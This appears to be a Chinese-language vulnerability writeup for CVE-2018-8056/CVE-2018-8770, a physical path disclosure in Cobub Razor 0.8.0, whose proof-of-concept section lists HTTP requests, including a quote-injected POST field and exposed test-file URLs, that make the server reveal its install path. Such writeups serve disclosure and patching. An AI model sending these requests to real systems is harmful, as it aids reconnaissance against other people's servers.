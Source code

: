 （CVE-2018-8056/CVE-2018-8770）Cobub Razor 0.8.0 存在物理路径泄露漏洞
=====================================================================

一、漏洞简介
------------

二、漏洞影响
------------

Cobub Razor 0.8.0

三、复现过程
------------

### POC

> 方法一：

    URL: http://localhost/export.php
    HTTP Method: GET
    URL: http://localhost/index.php?/manage/channel/addchannel
    HTTP Method: POST
    Data: channel_name=test"&platform=1

> 方法二：> Cobub Razor
> 0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub
> Razor是一个在github上开源的系统。

    HTTP Method: GET
    http://localhost/tests/generate.php
    http://localhost/tests/controllers/getConfigTest.php
    http://localhost/tests/controllers/getUpdateTest.php
    http://localhost/tests/controllers/postclientdataTest.php
    http://localhost/tests/controllers/posterrorTest.php
    http://localhost/tests/controllers/posteventTest.php
    http://localhost/tests/controllers/posttagTest.php
    http://localhost/tests/controllers/postusinglogTest.php
    http://localhost/tests/fixtures/Controller_fixt.php
    http://localhost/tests/fixtures/Controller_fixt2.php
    http://localhost/tests/fixtures/view_fixt2.php
    http://localhost/tests/libs/ipTest.php
    http://localhost/tests/models/commonDbfix.php
